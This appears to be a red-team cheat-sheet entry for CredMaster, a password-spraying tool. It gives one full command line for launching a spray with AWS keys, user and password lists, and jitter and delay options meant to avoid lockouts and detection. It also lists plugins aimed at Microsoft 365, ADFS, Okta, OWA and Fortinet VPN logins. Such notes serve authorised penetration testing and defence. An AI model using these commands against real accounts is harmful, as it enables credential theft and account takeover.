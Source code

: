 ### Source
https://github.com/knavesec/CredMaster

### Start password spray (-t threads, -m minimum jitter seconds, -j jitter, -d minute delay between pws)
```
python3 credmaster.py --access_key <key> --secret_access_key "<secret>" --plugin <plugin> --url "https://<domain>" -u <userList> -p <passwordList> -a <useragentList> -o <outFile> --region <region> --passwordsperdelay 1 -t 1 -m 30 -j 60 -d 180
```

### Plugins
```
ADFS - Active Directory Federation Services
AzureSSO - Azure AD Seamless SSO Endpoint
AzVault - AzVault Module, Azure spray point different to MSOL/AzureSSO
EWS - Exchange Web Services
FortinetVPN - Fortinet VPN Client
HTTPBrute - Generic HTTP Brute Methods (Basic/Digest/NTLM)
MSGraph - MSGraph Module, msgraph spray point for azure and MSOL credentials
MSOL - Microsoft Online
O365Enum - Office365 User Enum (No Authentication Request)
O365 - Office365 - DEPRECATED
Okta - Okta Authentication Portal
OWA - Outlook Web Access
```

